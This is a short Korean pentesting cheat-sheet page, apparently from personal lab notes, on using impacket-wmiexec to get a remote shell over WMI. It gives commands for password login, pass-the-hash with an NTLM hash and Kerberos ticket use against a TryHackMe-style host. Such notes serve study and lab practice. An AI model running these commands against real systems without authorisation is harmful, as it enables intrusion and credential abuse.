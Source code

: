```yaml
---
layout: page
title: wmiexec
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


- **목적:** WMI(RPC)를 통해 원격 시스템에 셸을 획득합니다.
- **특징:** `psexec`보다 은밀하지만, 셸이 다소 불안정할 수 있습니다.

```bash
# 비밀번호 이용
rlwrap impacket-wmiexec <domain>/<user>:<password>@$target

# Pass-the-Hash
rlwrap impacket-wmiexec <domain>/<user>@$target -hashes :<ntlm_hash>

# getST 사용 이후
rlwrap impacket-wmiexec -k -no-pass THM.LOCAL/Administrator@labyrinth.thm.local
```
